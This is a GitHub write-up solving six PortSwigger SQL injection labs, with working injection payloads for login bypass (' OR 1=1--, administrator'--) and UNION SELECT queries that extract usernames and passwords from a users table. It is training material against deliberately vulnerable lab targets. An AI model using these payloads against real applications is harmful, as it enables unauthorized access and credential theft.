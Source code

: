 # In-Band SQL Injection
## Summary
- [Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab2: SQL injection vulnerability allowing login bypass](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab2-sql-injection-vulnerability-allowing-login-bypass)
- [SQL injection UNION attacks](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#sql-injection-union-attacks)
	- [Lab3: SQL injection UNION attack, determining the number of columns returned by the query](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
	- [Lab4: SQL injection UNION attack, finding a column containing text](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab4-sql-injection-union-attack-finding-a-column-containing-text)
	- [Lab5: SQL injection UNION attack, retrieving data from other tables](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab5-sql-injection-union-attack-retrieving-data-from-other-tables)
	- [Lab6: SQL injection UNION attack, retrieving multiple values in a single column](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab6-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)

## `Notice:` I suggest being familiar with SQL before reading the labs solutions.

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- In the first, If we set this specific character `'`, the server will reply with `Internal Server Error`.
- Because when we will set it, the query in the backend will be like that :

```SQL
SELECT * FROM products WHERE category = ''' AND released = 1
```
- But we can use some tricks to inject this parameter.

```
category=any_category' OR 1=1--
category=' OR 1=1--
```
- Here, we terminated the single quotes of category parameter.
- And we used an `OR` logical operator and the equation of `1=1`, and this equation will always be true, so now we don’t have to know category as whatever be the category if we set or not.
- After that, we added the comment sequence `--` causes the remainder of the query to be ignored.
- So the query will show all category items and will be like that:

```SQL
SELECT * FROM products WHERE category = 'any_category' OR 1=1--' AND released = 1
```
-----------------------------------------------------------------------

### Lab2: SQL injection vulnerability allowing login bypass
- Many applications that implement a forms-based login function use a database to store user credentials and perform a simple SQL query to validate each login attempt like this query:

```SQL
SELECT * FROM users WHERE username = 'admin' AND password = 'admin'
```
- Try injecting this payload.

```
username=administrator'--
```
- Again, When we set `--`, it will ignore the remainder of the query and the password check is bypassed.
- It is called `subverting or altering application logic`.
- The query will be like that after injecting in the backend:

```SQL
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
##### Take note for another solution:
- Suppose that the attacker does not know the administrator’s username. In most applications, the first account in the database is an administrative user, because this account normally is created manually and then is used to generate all other accounts via the application.
- So we will log in as the first user in the database who is the administrator by supplying this as input to the username parameter:

```
username=' OR 1=1--
```
- The query will be like that and will let you log in as the first user who is the `administrator` and also the password check is bypassed.

```SQL
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

-----------------------------------------------------------------------
## SQL injection UNION attacks
### Lab3: SQL injection UNION attack, determining the number of columns returned by the query
>  `Note:` To combine two `select` statements with the `UNION`  operator:
>  1. We must return the same number of columns in the 2 `select` statements.
>  2. The 2 queries result must have the same or compatible data types, appearing in the same order.

- So one of the most common ways to detect the number of columns in the select statement is using the `NULL` values. 
- There is another way with using the `order by clause`.
- But we will use the first way because of the `NULL` value can be converted to any data type.
- Here, when I tried to test the number of columns, I got an error: `Internal server error`.
 
```
category='union select null--
category='union select null,null--
```
 - But when I tried three values of `NULL`, the injected query succeeded.
 
```
category='union select null,null,null--
```

-----------------------------------------------------------------------

### Lab4: SQL injection UNION attack, finding a column containing text

- As usual in the first, I tried to identify a number of columns, and I detected there are three columns combined in the query when I injected the `UNION` operator.

```
category='union select null,null,null--
```
- The second step I want to identify the data type of the columns, but I will focus on the string data because the important and interesting data will be in the string columns.
- So I tried to set string data in the first column, and when it will be combined with the first column in the query of the application it will return an error if the results are not compatible with the same data types.
- Here, I got an error because the first column is not from the string data type.

```
' union select 'VlA8XYl',null,null--
```
- But on the second try, the payload is interpreted successfully, and the second column returned data from the `string` data type.  

```
' union select null,'VlA8XYl',null--
```

-----------------------------------------------------------------------

### Lab5: SQL injection UNION attack, retrieving data from other tables
1. Testing number of columns:

```
category=' union select null,null--
```
2. Testing which column holds data with `string` data type:

```
category=' union select 'hello',null--
```
- **In real-world scenarios, you must know the type and version of the database software, and the names of the tables and columns containing the data you want to access, in the next labs we will know how to know that, but in this lab description, we know the name of the table and the columns which we will retrieve.**
3. And the last phase is retrieving the data from the `user` table:

```
category=' union select username, password from users--
```
- Here we can see the results from my injected query, and now we can log in as the `administrator` user.

![lab5.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab5.png)

-----------------------------------------------------------------------
### Lab6: SQL injection UNION attack, retrieving multiple values in a single column
- We will try to detect the number of columns and data type of each column as usual.

```
1. category=' union select null,null--
2. category=' union select null,'hello'--
```
- I detected the second column is a `string`, but how we can retrieve the username and password when we have just one column receive string data!!
- And if we tried to retrieve the data with this query it will make an error:
```
category=' union select username, password from users--
```
- Because the first column is not string data type.
- The solution for this problem is combining the results of the 2 columns in one column by concatenating them with `||`.
- You can use `||` to concatenate strings in the oracle database, but it is different in the other database types.
- Don't worry, in the next labs you will know how to detect the type of database to identify your syntax and the methodology to deal with it.
```
category=' union select null, username ||'~'|| password from users--
```
- `Note:` You can set any specific character to separate columns other than `~`.

![lab6.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6.png)

- Or you can make something like that by concatenating😃
```
category=' union select null, 'User: '|| username ||' and password: '|| password from users--
```

![lab6_another_form.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6_another_form.png)
